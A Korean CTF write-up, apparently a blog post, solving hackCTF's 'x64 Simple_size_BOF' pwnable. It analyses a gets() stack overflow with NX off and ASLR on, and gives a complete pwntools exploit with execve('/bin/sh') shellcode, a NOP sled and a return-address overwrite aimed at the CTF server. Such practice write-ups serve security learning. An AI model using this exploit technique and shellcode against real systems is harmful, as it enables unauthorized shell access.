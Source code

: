 ```yaml
---
layout: post
title:  "[hackCTF]x64 Simple_size_BOF"
date:   2020-02-18
---
```


hackCTF pwnable 여섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(bss_start, 0LL, 2, 0LL);
  puts(&s); // s에 저장된 문자열을 출력한다
  printf("buf: %p\n", &v4); // v4의 주소를 출력한다
  gets(&v4); // stdin으로부터 문자열을 입력 받아 v4에 저장한다
  return 0;
}
```
<br>

정리해보자.<br><br>

***

| ret |            |
|:---:|:----------:|
| sfp |   (8byte)  |
| rbp |            |
| ... |            |
|  v4 | rbp-0x6D30 |

***
<br>

![0602](https://drive.google.com/uc?id=1IKf6P8UjdQnO0iOExB2Syd8_4ONi70Ve)  
NX 보호기법이 미적용되었으므로 stack에서 쉘코드를 실행시킬 수 있다.  gets로 v4에 쉘코드를 저장하고 ret을 v4의 시작주소로 덮어 문제를 해결하자.<br><br><br>
![0601](https://drive.google.com/uc?id=1OvYOaP63MM0QloMKUdMvTyWAvb09Ncue)  
이 때 ASLR 보호기법이 적용되어 파일을 실행할 때마다 주소가 변하므로 처음 v4의 주소를 출력하면 그 주소를 받아 payload를 완성해야 한다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil("buf: ") # "buf: "까지 받는다

buf = int(p.recv(14), 16) # 14바이트를 받고 16진수로 변환하여 buf에 저장

payload = "\x90"*0x9 # nop으로 일부 채우기

payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" # 쉘코드

payload += "\x90"*(0x6D30 - 0x20 + 0x8) # sfp까지 nop으로 채우기

payload += p64(buf) # 앞에서 받은 v4의 주소(buf) 추가

p.sendline(payload)

p.interactive()
```

## 결과
![0603](https://drive.google.com/uc?id=1YE2LhE9ENLXGPJCWHLNMffHGCiNN3kcr)
